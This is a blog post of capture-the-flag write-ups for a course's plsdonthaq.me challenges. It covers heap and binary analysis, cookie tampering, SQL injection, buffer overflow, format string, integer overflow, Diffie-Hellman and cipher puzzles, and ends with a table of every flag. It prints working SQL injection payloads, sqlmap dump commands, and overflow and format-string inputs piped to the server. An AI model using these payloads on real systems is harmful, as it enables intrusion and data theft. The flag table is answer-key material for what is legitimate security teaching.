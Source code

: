 ```yaml
---
title: "plsdonthaq.me CTF Challenges"
date: 2019-07-25T13:34:08+10:00

categories: ["Extended Security", "Musings"]
hiddenFromHomePage: false
postMetaInFooter: false

flowchartDiagrams:
  enable: false
  options: ""

sequenceDiagrams: 
  enable: false
  options: ""

---
```


***WARNING: SPOILERS***  
***WARNING: SPOILERS***  
***WARNING: SPOILERS***  
***WARNING: SPOILERS***  
***WARNING: SPOILERS***  
***WARNING: SPOILERS***  

---

The tutors released some CTF questions at [plsdonthaq.me](http://plsdonthaq.me). Keen!

# Category: Hard
## <s>trivial</s>

<details>

[[trivial]](trivial)

**Analysis**  
There's something _trivial_ about this program...  

Let's take a look at the dissasembly with `objdump -d trivial`, especially at `trivial_malloc` and `trivial_free`.  

```asm
000000000000178d <trivial_malloc>:
    178d:       55                      push   %rbp
    178e:       48 89 e5                mov    %rsp,%rbp
    1791:       48 83 ec 10             sub    $0x10,%rsp
    1795:       89 7d fc                mov    %edi,-0x4(%rbp)
    1798:       b8 00 00 00 00          mov    $0x0,%eax
    179d:       e8 7e f9 ff ff          callq  1120 <rand@plt>
    17a2:       99                      cltd   
    17a3:       c1 ea 0f                shr    $0xf,%edx
    17a6:       01 d0                   add    %edx,%eax
    17a8:       25 ff ff 01 00          and    $0x1ffff,%eax
    17ad:       29 d0                   sub    %edx,%eax
    17af:       05 00 00 40 00          add    $0x400000,%eax
    17b4:       83 e0 f8                and    $0xfffffff8,%eax
    17b7:       48 98                   cltq   
    17b9:       c9                      leaveq 
    17ba:       c3                      retq   

00000000000017bb <trivial_free>:
    17bb:       55                      push   %rbp
    17bc:       48 89 e5                mov    %rsp,%rbp
    17bf:       48 89 7d f8             mov    %rdi,-0x8(%rbp)
    17c3:       90                      nop
    17c4:       5d                      pop    %rbp
    17c5:       c3                      retq   
    17c6:       66 2e 0f 1f 84 00 00    nopw   %cs:0x0(%rax,%rax,1)
    17cd:       00 00 00 
```

Hm...

Let's use a decompiler for an easier understanding of these two functions.

```c
// 0x000000000000178D
int64 trivial_malloc() {
  return (signed int)((rand() % 0x20000 + 0x400000) & 0xFFFFFFF8);
}

// 0x00000000000017BB
void trivial_free() {

}
```

There's ... no `malloc`? Nor is there a `calloc` anywhere?  
And you can definitely see that if you search the dissasembly `objdump -d trivial | grep malloc`.

So, the assignment of our items into the heap is being controlled **manually**!

There's also this function called `con`

```asm
0000000000001716 <con>:
    1716:       55                      push   %rbp
    1717:       48 89 e5                mov    %rsp,%rbp
    171a:       48 83 ec 10             sub    $0x10,%rsp
    171e:       bf 00 00 00 00          mov    $0x0,%edi
    1723:       b8 00 00 00 00          mov    $0x0,%eax
    1728:       e8 b3 f9 ff ff          callq  10e0 <time@plt>
    172d:       89 c7                   mov    %eax,%edi
    172f:       b8 00 00 00 00          mov    $0x0,%eax
    1734:       e8 77 f9 ff ff          callq  10b0 <srand@plt>
    1739:       be 00 00 00 00          mov    $0x0,%esi
    173e:       48 8d 3d bb 0a 00 00    lea    0xabb(%rip),%rdi        # 2200 <_IO_stdin_used+0x200>
    1745:       b8 00 00 00 00          mov    $0x0,%eax
    174a:       e8 a1 f9 ff ff          callq  10f0 <open@plt>
    174f:       89 45 f4                mov    %eax,-0xc(%rbp)
    1752:       8b 45 f4                mov    -0xc(%rbp),%eax
    1755:       41 b9 00 00 00 00       mov    $0x0,%r9d
    175b:       41 89 c0                mov    %eax,%r8d
    175e:       b9 12 00 00 00          mov    $0x12,%ecx
    1763:       ba 03 00 00 00          mov    $0x3,%edx
    1768:       be 00 00 02 00          mov    $0x20000,%esi
    176d:       bf 00 00 40 00          mov    $0x400000,%edi
    1772:       e8 e9 f8 ff ff          callq  1060 <mmap@plt>
    1777:       48 89 45 f8             mov    %rax,-0x8(%rbp)
    177b:       8b 45 f4                mov    -0xc(%rbp),%eax
    177e:       89 c7                   mov    %eax,%edi
    1780:       b8 00 00 00 00          mov    $0x0,%eax
    1785:       e8 16 f9 ff ff          callq  10a0 <close@plt>
    178a:       90                      nop
    178b:       c9                      leaveq 
    178c:       c3                      retq   
```

```c
// 0x0000000000001716
int con() {
  unsigned int v0; // eax@1
  int fd; // ST04_4@1

  v0 = time(0LL);
  srand(v0);
  fd = open("/dev/zero", 0);
  mmap((void *)0x400000, (size_t)&unk_20000, 3, 18, fd, 0LL);
  return close(fd);
}
```

It's some sort of function that sets the seed for `rand`, as well as read a whole chunk of zeros into the memory (our heap address).  
Although I don't see this function being called anywhere - it supposedly runs before `main`

Also, checking the security of this file with `checksec --file=./trivial`:

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX disabled   PIE enabled     No RPATH   No RUNPATH   95 Symbols     Yes      0               3        ./trivial
```

We'll be dealing with a binary that has partial RELRO (Can override the GOT table if need be), a Stack Canary (Won't be able to _just_ do a buffer overflow - ish), and PIE enabled (memory space stuff)

We can see that the stack (and heap) is executable too, with `readelf -l ./trivial`:  
```
GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000  RWE 0x10
```

The `E` in `RWE` stands for **E**xecutable.

---

**`trivial_malloc`**

This function returns a limited address range.

`(0x0 + 0x400000) & 0xFFFFFFF8 = 4194304`  
`(0x19999 + 0x400000) & 0xFFFFFFF8 = 4299160`

So we have a range of `104856` bytes.

As `sizeof(struct node)` is `24` (3x 8byte pointers), and name is 'allocated' `128` bytes, that's `152` bytes per item.  

`(4299160-4194304) / (24 + 128) = 689.84`  
So theoretically, we can have a maximum of 689 / 690 items before we are 'out' of free space

---

I made a breakpoint occur every time `create_item` finishes, to inspect the frame.  

After creating two items, we should expect `*(items)` and `*(items+8)` to be populated, as we do see.

```gdb
(gdb) p/x items                                                                                                                                                                               
$1 = 0x417c20                                                                                                                                                                                 
(gdb) p/x *(items) 
$2 = 0x555580a8                                                                                                                                                                               
(gdb) p/x *(items+8)                                                                                                                                                                          
$3 = 0x404450                                                                                                                                                                                 
(gdb) p/x *(items+16)                                                                                                                                                                         
$4 = 0x0                                                                                                                                                                                      
(gdb) p/x *(items+24)                                                                                                                                                                         
$5 = 0x0                                                                                                                                                                                      
```

I'm not sure what's going on, but it looks like `items[0]` points to an address that wasn't 'allocated'.

---

**glib versions**  


* most things - 2.2.5
* 2.2
* isoc99 functions - 2.7
* stack check - 2.4 

**Possible solutions**  


* heap overflow into shellcode
* Heap spray -> NOP sled \x90

</details>

# Category: Web
## cookie

<details>

> http://plsdonthaq.me:8001

**Solution**  
There's a browser cookie `admin` that is set to `0`.  
Simple just modify the cookie and set it to `1`.

Flag: `COMP6441{you_should_consider_doing_comp_[6843/6447]}`

</details>

## ezpz1.0

<details>

> http://plsdonthaq.me:8013

**Analysis**  
This is an SQL Injection question.  
Unfortunately a few too many people have been most likely [`sqlmap`](http://sqlmap.org/)-ing the poor website, and it was very slow to use (Rate limit your queries!!!).  
(_or, the server was slow to begin with_)

We're given a website with a login form, and a few links at the top.  
One says "flag", but it's a 404 - **it's a red herring**, so let's forget about that.

Doing some reconnaissance, we see that the SQL queries are performed unsafely.  
If we put a `'` into the username input, we're presented with a backend error

`''' LIMIT 1" LINE 3: ... WHERE username=''' ^ [SQL: "SELECT username, password\n FROM users\n WHERE username='''\n LIMIT 1"] (Background on this error at: http://sqlalche.me/e/f405)`

From here, we can see that the backend is using [SQLAlchemy](https://www.sqlalchemy.org/), a SQL library for Python.  
With some more research, we can see that the database is running [Postgres](https://www.postgresql.org/).  

Let's have a look at the query string.  

`"SELECT username, password FROM users WHERE username='' LIMIT 1"`

We see that the query is using apostrophes (`'`) to enclose the username and password strings, so **we also want to use apostrophes** in our exploit.  
We can also see that the password field is indirectly referenced - meaning that we won't be able to perform any sort of injection from the password input field (at least not with this query string alone).  

Firstly, let's guess a username - perhaps `admin`.  
Putting in `admin` and whatever password we want gives us an error saying that the **sha256(hash)** does not match.  
Interesting, so we know that the passwords might be hashed with SHA256.

We can therefore infer that some line of code in the server is performing a comparison: `if (sha256(input_password) == hash_inside_the_database) { ... }`.  

We can see from the SQL query, that the backend _first_ retrieves a record, and _then_ compares the record to our input.  
Obviously we don't have the password, let alone the SHA256 hash of the user `admin` (not yet at least) - but that's okay, we'll just provide our own hash!

We can perform an SQL injection into the username field to provide our own row with the `UNION` operator

Let's create a SHA256 hash of the letter `a` (our forced password)...  
`sha256("a") => ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb`

Injecting `' UNION SELECT 'admin', 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'--` into the username field, and using `a` as the password, we're presented with a welcome page, saying welcome `admin`!


Perhaps we can try get the password hash by concatenating the admin username and password as our first column in the union.

Inject: `' UNION SELECT 'admin' || password, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM users--`  
Result: `You are logged in as You are logged in as admin6d77eed869f7503fdc1a0c7feb648fffe2398a7b7952b91f0a7acc7fb7e26d2d`

So we've gotten the SHA256 password hash for `admin` to be `6d77eed869f7503fdc1a0c7feb648fffe2398a7b7952b91f0a7acc7fb7e26d2d`, which is probably a hash of the flag!

Let's see what else is in our `users` table.

To extract the names of the columns in our `users` table...  
`' UNION SELECT column_name, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM information_schema.columns WHERE table_name = 'users' OFFSET 0--`  
`' UNION SELECT column_name, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM information_schema.columns WHERE table_name = 'users' OFFSET 1--`  
`' UNION SELECT column_name, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM information_schema.columns WHERE table_name = 'users' OFFSET 2--`  

These queries give us the existence of three columns, `password`, `username`, and `id`

Searching for the entries in this table (_perhaps we had to find another user?_)...  
`' UNION SELECT id||'.'||username||'.'||password, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM users--`

It gives us just the admin row, `1.admin.6d77eed869f7503fdc1a0c7feb648fffe2398a7b7952b91f0a7acc7fb7e26d2d`

Unfortunately none of the SHA256 rainbow tables had this hash stored, and [HashCat](https://hashcat.net/hashcat/) didn't want to work for me.  
**But that's okay, because everything I just said was unnecessary in finding the flag!**

Instead what we want to do, is to navigate around the database to find the table which contains our flags!

**Solution**  
After snooping around for a bit, we find the existence of the `flag` table, to which we can then extract the flag with another SQL injection.

Inject: `' UNION SELECT flag, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM flag--`
Result: `You are logged in as You are logged in as COMP6443{literally_unhackable}`

Flag: `COMP6443{literally_unhackable}`

---

You could have also used [`sqlmap`](http://sqlmap.org/), which is a piece of software designed to do exactly these sort of things!

```
sqlmap -u http://plsdonthaq.me:8013/ --data username=* --method POST 
sqlmap -u http://plsdonthaq.me:8013/ --data username=* --method POST --dbs  
sqlmap -u http://plsdonthaq.me:8013/ --data username=* --method POST --dump 
```

</details>

# Category: Binary
## poodle

<details>

> Hello what is your favourite type of poodle?  
ENTER POODLE CHOICE NOW>   

[[buf2]](buf2)

**Solution**  
Looking at the disassembly of the code, `scanf` writes into a memory space that is `0x36` bytes long (54 bytes).  
The next 4 bytes are the return value, which we don't care about.

So we need to pad 58 bytes before we can override the return address to the address of `printFlag` (`0x08049259`).  

`python -c 'print("." * 58 + "\x08\x04\x92\x59"[::-1])' | nc plsdonthaq.me 1000`

Flag: `COMP6441{how_good_are_buffer_ove}rflows`

</details>

## format0

<details>

> ```
   ____                    __        __      _
  / __/__  ______ _  ___ _/ /_  ____/ /_____(_)__  ___ _
 / _// _ \/ __/  ' \/ _ `/ __/ (_.-/ __/ __/ / _ \/ _ `/
/_/  \___/_/ /_/_/_/\_,_/\__/ /___/__/ _/ /_/_//_/\_, /
                                                 /___/
Once thought to be just a lazy short cut,
actually leads to remote code execution!

A pointer to the flag is on the stack
format string>
```

[[format0]](format0)

**Solution**  
I reckon this question is broken, you don't need to try at all, just press enter.

Flag: `COMP6441{hacked_the_planet}`

</details>

## format2

<details>

[[format2_32]](format2_32)

**Analysis**  
Looking at the dissassembly of our binary, we see that this is a `printf` exploit.  
To store the input, the program uses `fgets` - to we're limited to 98 (0x63 - 1) bytes of input.  
Additionally, there is a stack canary which may halt our attempts - so we won't be doing a buffer overflow this time.  

(Evidently, because it's a format string challenge.)

Doing some analysis, the return address (EIP) of the `do_the_format` function is `0x080491fb`, which is stored at on the stack at `0xffffd55c`.  
We'll need to change it to `0x080492be`.

_(It was also the 35th item in the stack, but you wouldn't have been able to just write into `%35$n`, as it would write into the address referenced by the data in that slot, rather the address of the slot itself_

`<destinationAddress><destinationAddress+2>%<HI-8>c%5$n%<HI-LO>c%6$n`

Where:

* `destinationAddress` is the address which you wish to write into (`0xffffd55c`)
* `HI` is the first two bytes of the address we want to write (`0x0804`)
* `LO` is the last two bytes of the address we want to write (`0x92be`)

Doing that gives us this chain:  
`\x5c\xd5\xff\xff\x5e\xd5\xff\xff%37558c%6$n`

Now it didn't exactly work out for me, because `HI` - `LO` would give me a negative value, and I wasn't sure if that was right or if I had to do something special to fix that.  

After some research, I found a way to write two `short`s instead of a single `int`:  
`\x5c\xd5\xff\xff\x5e\xd5\xff\xff%37558c%2$hn%30022c%3$hn`

But jk it still didn't work - the stack was probably changing, so I couldn't just hardcode `0xffffd55c`

So I tried another approach, this time with the `GOT` entries.  

**Solution**  

**GOT** stands for _Global Offset Table_ and is a mechanism to redirect addresses to external functions (ie provided by libc).  

Looking at GOT entries of the binary with `readelf -r ./format2`, we get this:  
```
Relocation section '.rel.dyn' at offset 0x3fc contains 5 entries:                                                                                                                                               
 Offset     Info    Type            Sym.Value  Sym. Name                                                                                                                                                        
0804bfec  00000106 R_386_GLOB_DAT    00000000   _ITM_deregisterTMClone                                                                                                                                          
0804bff0  00000806 R_386_GLOB_DAT    00000000   __gmon_start__                                                                                                                                                  
0804bff4  00000a06 R_386_GLOB_DAT    00000000   stdin@GLIBC_2.0                                                                                                                                                 
0804bff8  00000b06 R_386_GLOB_DAT    00000000   stdout@GLIBC_2.0                                                                                                                                                
0804bffc  00000c06 R_386_GLOB_DAT    00000000   _ITM_registerTMCloneTa                                                                                                                                          
                                                                                                                                                                                                                
Relocation section '.rel.plt' at offset 0x424 contains 7 entries:                                                                                                                                               
 Offset     Info    Type            Sym.Value  Sym. Name                                                                                                                                                        
0804c00c  00000207 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0                                                                                                                                                
0804c010  00000307 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0                                                                                                                                                
0804c014  00000407 R_386_JUMP_SLOT   00000000   fgets@GLIBC_2.0                                                                                                                                                 
0804c018  00000507 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4                                                                                                                                      
0804c01c  00000607 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0                                                                                                                                                  
0804c020  00000707 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0                                                                                                                                                
0804c024  00000907 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
```

At this point, it's just a matter of choosing an entry to override.  
I decided to override `fflush`, thinking that overriding `printf` might be bad since it's the function that will perform our exploit for us.  

So therefore, we would need to change the value at the address for `fflush`, `*(0x0804c010) = 0x080492be`.

I also seemed to need to add an extra "." at the start of my string to fix the alignment of characters.

So finally I used this format string `.\x10\x11\x12\x13%173c%6$hhn%212c%7$hhn%114c%8$hhn%4c%9$hhn` to gain access to the shell.

[[format2_solver.py]](format2_solver.py)

Flag: `COMP6441{hacked_the_planet_2}`

</details>

## int1

**Solution**  
I wasn't able to do this challenge the first time, despite doing the exact same thing when attempting it the next day...

We need to input a number that when multiplied by 2, is equal to 2674.  
That would be 1337 right!  

But if you try enter a number greater than or equal to forty, we'll get an error:  

```
Enter a number: 100
Sorry we can't hold numbers >= 40
Budget cuts, they hit everybody...
```

The way to solve this is to perform an integer overflow attack.

Any positive number stored as a _signed integer_ (4 bytes) greater than 2147483647 will cause that number to overflow into the largest negative number.  
Similarly, any negative number stored as a _signed integer_ (4 bytes) less than -2147483647 will cause that number to overflow into the largest positive number. 

So we'll need to enter in `-2147482311` as the value.  

Doing so drops us into a bash shell, where through some recon we can find the flag.

```
$> ls
bin
boot
dev
etc
flag <---- Flag file!!!
...

$> cat flag
COMP6441{hacked_the_ether}
```

Flag: `COMP6441{hacked_the_ether}`

---

Now, the usual piping didn't work, and I'm not entirely sure why it didn't work.  
I even tried adding a time delay between the prints, but it still wouldn't work.  
If anyone knows why this is the case, please let me know!

`python3 -c 'print(-(2*31)+1337)' | nc plsdonthaq.me 1003`

# Category: Crypto
## <s>birthday attack</s>
## diffie 1

<details>

> INTERCEPTING DIFFY HELLMAN KEY EXCHANGE  
Generator: `19`  
Modulus: `239`  
Alice: here is my (Generator^mySecret) Mod (Modulus): `184`  
Bob: here is my (Generator^mySecret) Mod (Modulus): `227`  
What is their shared key?  
Eve:

**Solution**

The problem with the Diffie Hellman key exchange, is that if the modulus is not large enough, we are able to brute-force crack the secret of each party.

In this case:  
Alice's secret is `37`  
Bob's secret is `171`  

Given either secret, by raising the received public data to our secret, and taking the modulus of that, we are able to determine the shared secret, which in this case is `178`

Entering `178` as Eve's response gives us the flag.

[[diffie1_solver.py]](diffie1_solver.py)  
Usage: `diffie1_solver.py (generator) (modulus) (public)`  
If it's taking too long, perhaps use another set of values of the questions

Flag: `COMP6441{haCk3rs_gunnA_H4K}`

</details>

## diffie 2

<details>

> BEGINING DIFFY HELLMAN KEY EXCHANGE  
Generator: `61`  
Modulus: `823`  
Here is (Generator^mySecret) Mod (Modulus): `373`  
Enter yours: ...  
Enter our secret number: ...

**Solution**  
This is just the standard application of the Diffie Hellman process - no brute-forcing or any sort of cracking needed here.

Pick any secret `s`, then create your public data (base^`s` % modulus), and use that as the value for "Enter yours".  
Then just raise the given public data to your secret apply the modulus for the "Our secret number"

**Trivial Solution**  
Just enter `1`, and `1`

Flag: `COMP6441{sEcuRe_tHe_plaNet!}`

</details>

## <s>MAC</s>
## vinegar

<details>

> adamt told me that his facebook password encrypted is this cipher text: Dlc_ppyq_mq_MSKZ6441{lymo_rri_esfqyr}

**Solution**  
Vinegar ... hm I wonder if it's a _vigenere_ cipher.

Apply some analysis, or just brute force it, to determine that the key is `key`.

Flag: `COMP6441{hack_the_gibson}`

</details>

## <s>hash length magic</s>

**Analysis**
Nothing happens when you connect?  
_Or does it?_

When you enter more than 255 characters, you get this message:  
`Send me 0x100 bytes, [sha256(key + message) + message] Where message is get flag`

python3 -c 'key = "a"; m = "get flag"; import hashlib; xx = hashlib.sha256(key.encode() + m.encode()).hexdigest() + m; print(xx + "\x00" * (0x100 - len(xx)))' | nc plsdonthaq.me 9003

python3 -c 'print(-(2**31)+1337)' | nc plsdonthaq.me 1003
Enter 1337*2 == 2674 ;)
Enter a number:you entered -2147482311*2 == 2674


# Category: Misc

## shuffle

<details>

> Can you crack this?  
[[shuffle.txt]](shuffle.txt)

**Solution**
It's a bunch of ASCII art, with the lines shuffled.  
We can sort these lines (by increasing number) and after stripping this order information, we can read the flag from ASCII art.

[[shuffle_solver.py]](shuffle_solver.py)  
[[shuffle_solved.txt]](shuffle_solved.txt)

Flag: `MAKING ASCII ART IS A KEY PART OF THE HACKERS TOOLKIT`
</details>

## guess

<details>

> Can you guess the flag?  

**Analysis**  
The program is asking for some sort of password.  
If you try to enter `A`... it will instantly kick you out.  
If you try to enter `B`... it will instantly kick you out.  
If you try to enter `C`... there's a 0.5s delay... and then it kicks you out.  

What about a second letter?  
`CA` -> 0.5s, then kick  
`CB` -> 0.5s, then kick  
...  
`CO` -> **one second**, then kick.  

Hmm..

**Solution**  
For each correct letter (case-sensitive, order-sensitive), it takes an extra 0.5 seconds to validate.  
We can use this time-delay as a feedback mechanism to tell us if we are right or not!

So I hacked together a brute-forcing script, and let it run for a few minutes.  
After a while, we successfully retrieve the flag!

Flag: `COMP6441{trollllolollololllol7}`
</details>

# Just give me the answers

|Question|Flag|
|--:|:--|
|trivial|``|
|cookie|`COMP6441{you_should_consider_doing_comp_[6843/6447]}`|
|ezpz1.0|`COMP6443{literally_unhackable}`|
|poodle|`COMP6441{how_good_are_buffer_ove}rflows`|
|format0|`COMP6441{hacked_the_planet}`|
|format2|`COMP6441{hacked_the_planet_2}`|
|int1|`COMP6441{hacked_the_ether}`|
|birthday attack|``|
|diffie 1|`COMP6441{haCk3rs_gunnA_H4K}`|
|diffie 2|`COMP6441{sEcuRe_tHe_plaNet!}`|
|MAC|``|
|vinegar|`COMP6441{hack_the_gibson}`|
|hash length magic|``|
|shuffle|`MAKING ASCII ART IS A KEY PART OF THE HACKERS TOOLKIT`|
|guess|`COMP6441{trollllolollololllol7}`|


